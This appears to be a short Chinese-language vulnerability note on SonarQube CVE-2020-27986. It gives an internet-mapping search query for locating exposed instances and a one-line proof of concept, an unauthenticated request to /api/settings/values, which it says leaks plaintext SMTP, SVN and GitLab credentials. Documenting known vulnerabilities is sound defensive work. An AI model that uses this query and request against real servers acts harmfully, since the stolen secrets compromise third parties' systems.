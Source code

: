# SonarQube values 信息泄露漏洞 CVE-2020-27986

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以获取部分敏感信息

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](../../../.vuepress/public/img/image-20210627221618861.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/settings/values
```

![img](../../../.vuepress/public/img/image-20210627221628431.png)



可泄露的为：明文SMTP、SVN和Gitlab等敏感信息

![img](../../../.vuepress/public/img/image-20210627221640310.png)